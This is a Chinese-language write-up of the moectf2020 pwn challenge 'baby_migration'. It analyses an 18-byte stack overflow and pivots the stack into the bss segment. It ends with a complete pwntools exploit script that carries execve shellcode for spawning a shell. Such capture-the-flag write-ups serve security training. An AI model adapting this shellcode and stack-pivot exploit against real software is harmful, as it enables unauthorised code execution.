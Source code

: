 [点击下载-baby_migration](/download/moectf2020/pwn/baby_migration/baby_migration)

首先是惯例的`checksec`

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-VRYytlMC-1605852471176)(https://i.loli.net/2020/08/24/4HjdZqlBKp1fIrG.png)]

四舍五入保护全关

拖入IDA进行分析

![image.png](img/b2546df5976b6aa6720ab16d51674c53.png)

我们可以看到存在栈溢出，可供溢出字节为`66-0x30=18`个字节，也就是说基本上只够覆盖rbp（8字节）+返回地址（8字节），空间十分拥挤，同时程序里也没有能够直接利用的gadget

但是我们可以观察到在`bss段`有极大的可读写空间

![image.png](img/057662934adcde59e24dcd4cdc76d367.png)

故考虑**栈迁移**，将栈迁移到bss段再放上我们的shellcode

构造exp如下：

```
from pwn import *

offset = 0x30
bss = 0x404060
back_to_gets = 0x4011c8

sc = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload1 = b'A'*offset + p64(bss+500) + p64(back_to_gets)
payload2 = sc + b'A'*(offset - len(sc)) + p64(bss+500) + p64(bss+500-offset)

p = process('./baby_migration')
p.recv()
p.sendline(payload1)
sleep(1)
p.sendline(payload2)
p.interactive() 
```
